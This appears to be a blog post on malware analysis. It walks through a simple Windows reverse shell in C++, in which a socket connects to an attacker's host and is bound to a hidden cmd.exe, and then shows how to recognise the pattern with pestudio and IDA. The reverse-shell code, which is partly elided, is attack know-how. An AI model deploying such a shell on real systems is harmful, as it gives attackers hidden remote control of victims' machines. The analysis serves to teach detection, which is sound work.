 ```yaml
---
layout: post
title: Malware Functionality Analysis: Simple Reverse Shell
---
```


# Malware Functionality Analysis: Simple Reverse Shell

## Implementing the Reverse Shell

Let's first analyse what we require to develop this functionality.

1. A socket with which commands and communication will be routed to the server,
2. A `cmd.exe` process that acts as the shell,
3. A listening server on the attacking machine (netcat will be sufficient enough for this).

---

### Creating the Connection

I will keep this section brief because creating and connecting a socket is a trivial procedure and there are many tutorials out there explaining how it can be done.

```c++
SOCKET tcpConnect(std::string address, std::string port) {
    getaddrinfo(address.c_str(), port.c_str(), ...);
    
    /*
     * Create a TCP socket connection.
     *
     * It's important that we use WSASocket here instead of the normal socket 
     * function and without the WSA_FLAG_OVERLAPPED flag.
     */
    SOCKET s = WSASocket(..., SOCK_STREAM, IPPROTO_TCP, ...);
    
    connect(s, ...);
    
    return s;
}
```

Note that we require the [`WSASocket`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms742212(v=vs.85).aspx) function because the (non-overlapped) socket will be required to work with I/O redirection with the shell's handles.

---

### Creating the Shell Process

The `cmd.exe` process acts as the shell so the application must create this as a separate process using the [`CreateProcess`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) function specifying the executable's path and also setting the stdin/stdout/stderr handles to the socket specified in the [`STARTUPINFO structure`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686331(v=vs.85).aspx).

```c++
void createShell(void) {
    SOCKET s = tcpConnect(ADDRESS, PORT);
    
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    
    /*
     * We specify what values we want to use.
     * STARTF_USESTDHANDLES specifies that we want to use stdin/stdout/stderr.
     * STARTF_USESHOWWINDOW specifies that we want to control how the window appears.
     */
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    
    /*
     * Set stdin/stdout/stderr to the socket.
     */
    si.hStdError = si.hStdInput = si.hStdOutput = (HANDLE)s;
    
    /*
     * The process's window will not be shown.
     */
    si.wShowWindow = SW_HIDE;
    
    /*
     * This structure will contain the handle to the shell's 
     * process which will be used to block the application 
     * until the shell exits.
     */
    PROCESS_INFORMATION pi;
    
    /*
     * Retrieve the path of the cmd.exe executable's path.
     * We use this so that it will systemmatically retrieve the 
     * system directory which may not always be "C:\Windows\system32".
     *
     * NOTE: Depending on your application's architecture, this
     * value will change under the hood, i.e. if your application is 
     * a 32-bit process, it will get the SYSWOW64 directory whereas 
     * the 64-bit counterpart will get the system32 directory. Make 
     * sure your target file exists in its corresponding directory 
     * when doing something like this. Alternatively, you can force 
     * to not swap to SYSWOW64 by explicitly calling 
     * Wow64DisableWow64FsRedirection.
     * (https://msdn.microsoft.com/en-us/library/windows/desktop/aa365743(v=vs.85).aspx).
     */
     char szSysDirectory[MAX_PATH + 1];
     ZeroMemory(szSysDirectory, MAX_PATH + 1);
     GetSystemDirectoryA(szSysDirectory, MAX_PATH);
     
     /*
      * Append "\cmd.exe" onto the system directory.
      */
     std::string cmdExe = szSysDirectory;
     cmdExe += "\\cmd.exe";
     
     /*
      * Create the cmd.exe process.
      * Make sure that the process inherits the handles.
      */
     CreateProcessA(cmdExe.c_str(), ..., true, 0, ..., &si, &pi);
     
     /*
      * Block until the cmd.exe process has completed.
      */
     WaitForSingleObject(pi.hProcess, INFINITE);
}
```

Once the `cmd.exe` process has been created, we call [`WaitForSingleObject`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx) to block the application until the shell process has finished execution.

---

### Demonstration

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample.png)

Note that there is no window for the `cmd.exe` shell process spawned from the application because we used the `SW_HIDE` value for the `STARTUPINFO.wShowWindow` member. It functions nicely using native utilities and can even be used to call PowerShell albiet a little buggy.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample1.png)

Using a single PowerShell one-liner, a 2nd-stage malware can be downloaded and invoked on the system.

---

### Static Analysis

Looking at the strings under pestudio, there exists some suspicious import and miscellaneous strings that relate back to the shell creation.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample2.png)

Obviously, the application shows signs of networking activity via the imported Winsock library (ws2_32.dll) and its functions. On top of that, it shows the `\cmd.exe` string that identifies that it may interact with it in some way. To confirm that it is being used as a reverse shell we must dig into the disassembly.

After analysis of the import table and some strings, one method that I find relatively quick and effective is by identifying where these are referenced within the code sections. This can be done with IDA by opening up the respective tab (e.g. Imports or Strings), double clicking an entry and then following any listed references to the code. For this example, following one of the Winsock library functions references the `tcpConnect` disassembly:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample3.png)

Tracing backwards from this routine presents the `createShell` routine:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample4.png)

(Small note: the `var_34` below the `STARTUPINFO` structure's standard handle assignment is the `STARTUPINFO.wShowWindow` member set to `SW_HIDE` which has the value of `0`.)

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample5.png)

Obviously, the disassembly nicely follows that of the C++ code implementation listed above. The main focus is that a socket was created in which it was used to set the `STARTUPINFO.hStdInput`, `STARTUPINFO.hStdOuput` and `STARTUPINFO.hStdError` values of a `cmd.exe`'s `CreateProcess`. This very specific program execution flow is what can identify this type of reverse shell.
